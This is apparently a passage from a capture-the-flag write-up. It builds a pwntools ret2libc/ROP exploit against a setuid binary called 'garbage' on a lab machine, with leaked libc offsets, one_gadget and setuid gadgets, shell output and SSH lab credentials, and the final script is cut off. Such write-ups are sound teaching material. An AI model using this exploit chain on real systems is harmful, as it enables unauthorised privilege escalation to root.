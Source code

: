 ```
# offsets
libc_puts    = 0x809c0  # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@GLIBC"
libc_exec_sh = 0x4f322  # one_gadget gadget garbage
libc_base   = leaked_puts - libc_puts

stage_2 = junk + p64(libc_exec_sh + libc_base)
garbage.sendline(stage_2)
garbage.recvuntil("access denied.")
garbage.interactive()

```

It works, but I am still margo:

```

root@kali# python ./root_shell-lowpriv.py
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process 'garbage' on 10.10.10.139: pid 1994
[+] Leaked puts address: 0x7fbb9651b9c0
[*] Switching to interactive mode

$ $ id
uid=1002(margo) gid=1002(margo) groups=1002(margo)

```

The program is dropping privilege. I can use setuid to get back to root.

### More Offsets

```

root@kali:/opt/libc-database# readelf -s libs/libc6_2.27-3ubuntu1_amd64/libc.so.6 | grep " setuid@@GLIBC"
    23: 00000000000e5970   144 FUNC    WEAK   DEFAULT   13 setuid@@GLIBC_2.2.5

```

I’ll add this to my rop.

### root Shell

Now I have a script that gives me a root shell:

```

#!/usr/bin/env python

from pwn import *

#context.log_level = "DEBUG"
sshConn = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
garbage = sshConn.process('garbage')

junk     = "A" * 136      # offset from pattern
pop_rdi  = p64(0x40179b)  # rop-tool gadget garbage | grep rdi
puts_plt = p64(0x401050)  # objdump -D garbage | grep puts@GLIBC
puts_got = p64(0x404028)  # objdump -D garbage | grep puts@GLIBC
main     = p64(0x401619)  # objdump -D garbage | grep '<main>' 

```